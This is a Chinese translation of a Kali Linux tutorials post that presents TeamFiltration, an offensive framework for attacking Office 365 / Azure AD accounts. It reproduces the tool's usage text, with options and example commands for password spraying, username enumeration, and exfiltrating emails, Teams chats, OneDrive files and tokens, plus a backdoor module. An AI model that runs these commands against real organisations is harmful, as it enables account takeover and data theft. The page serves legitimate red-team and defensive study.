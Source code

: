 # TeamFiltration:用于枚举、喷洒、渗透和后门 O365 AAD 帐户的跨平台框架

> 原文：<https://kalilinuxtutorials.com/teamfiltration/>

[![](img/603af109ccff5f929b9db4f04bd391e5.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjKH5Y-PgHTtzZK_5Rdq3MwJ5vIogvPByaGlGgnmzBLcMteEdsSlzZvpDkIYKyHkqPij9YJzCUzjmaUvr7E-vnm9dRjXE-P1CWrYfE_Z2pjiduwOZa1Hrs2p7qtXxzxLLqcNYUHPUZ53iO9DYmz7qqGdeONp1tsquukRmHaZnd1EiAko5gi81xH0Hd_/s728/TeamFiltration.png)

**TeamFiltration** 是一个跨平台的框架，用于 O365 AAD 账号的枚举、喷、渗、后门。参见 [TeamFiltration](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration) wiki 页面了解 TeamFiltration 如何工作，以及[快速入门指南](https://github.com/Flangvik/TeamFiltration/wiki/TeamFiltration#quick-start-guide)了解如何启动和运行！

这个工具从 2021 年 1 月开始在内部使用，并在 DefCON30 期间我的演讲“在云中装个哑巴”中公开发布。

## 下载

[您可以下载适用于 Linux、Windows 和 MacOSX X64 的最新预编译版本](https://github.com/Flangvik/TeamFiltration/releases/latest)

这些版本被预编译成一个依赖于应用程序的二进制文件。大小增加了，但是您不需要 DotNetCore 或任何其他依赖项来运行它们。

## 用法

```
[�] TeamFiltration V0.3.3.7 PUBLIC, created by @Flangvik @TrustedSec
Usage:

   --outpath     Output path to store database and exfiltrated information (Needed for all modules)

   --config      Local path to your TeamFiltration.json configuration file, if not provided will load from the current path

   --exfil       Load the exfiltration module  

         --username            Override to target a given username that does not exist in the database
         --password            Override to target a given password that does not exist in the database
         --cookie-dump         Override to target a given account using it's refresk-cookie-collection

         --all                 Exfiltrate information from ALL SSO resources (Graph, OWA, SharePoint, OneDrive, Teams)
         --aad                 Exfiltrate information from Graph API (domain users and groups)
         --teams               Exfiltrate information from Teams API (files, chatlogs, attachments, contactlist)
         --onedrive            Exfiltrate information from OneDrive/SharePoint API (accessible SharePoint files and the users entire OneDrive directory)
         --owa                 Exfiltrate information from the Outlook REST API (The last 2k emails, both sent and received) 
               --owa-limit     Set the max amount of emails to exfiltrate, default is 2k.
         --jwt-tokens              Exfiltrate JSON formated JTW-tokens for SSO resources (MsGraph,AdGraph, Outlook, SharePoint, OneDrive, Teams)

   --spray       Load the spraying module

         --aad-sso             Use SecureWorks recent Azure Active Directory password brute-forcing vuln for spraying
         --us-cloud            When spraying companies attached to US Tenants (https://login.microsoftonline.us/)
         --time-window         Defines a time windows where spraying should accour, in the military time format <12:00-19:00>
         --passwords           Path to a list of passwords, common weak-passwords will be generated if not supplied
         --seasons-only        Password generated for spraying will only be based on seasons
         --months-only         Password generated for spraying will only be based on months
         --common-only         Spray with the top 20 most common passwords
         --combo               Path to a combolist of username:password
         --exclude              Path to a list of emails to exclude from spraying

         --sleep-min           Minimum minutes to sleep between each full rotation of spraying default=60
         --sleep-max           Maximum minutes to sleep between each full rotation of spraying default=100
         --delay               Delay in seconds between each individual authentication attempt. default=0
         --push                Get Pushover notifications when valid credentials are found (requires pushover keys in config)
         --push-locked         Get Pushover notifications when an sprayed account gets locked (requires pushover keys in config)
         --force               Force the spraying to proceed even if there is less the <sleep> time since the last attempt

   --enum        Load the enumeration module

         --domain              Domain to perfom enumeration against, names pulled from statistically-likely-usernames if not provided with --usernames
         --usernames           Path to a list of usernames to enumerate (emails)
         --dehashed            Use the dehashed submodule in order to enumerate emails from a basedomain
         --validate-msol       Validate that the given o365 accounts exists using the public GetCredentialType method (Very RateLimited - Slow 20 e/s)
         --validate-teams      Validate that the given o365 accounts exists using the Teams API method (Recommended - Super Fast 300 e/s)
         --validate-login      Validate that the given o365 accounts by attemping to login (Noisy - triggers logins - Fast 100 e/s)

   --backdoor        Loads the interactive backdoor module

   --database        Loads the interactive database browser module

   --debug           Add burp as a proxy on 127.0.0.1:8080

   Examples:

        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --all 
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --aad  
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --backdoor
        --outpath C:\Clients\2021\FooBar\TFOutput --config myCustomConfig.json --database
```

[Click Here To Download](https://github.com/Flangvik/TeamFiltration)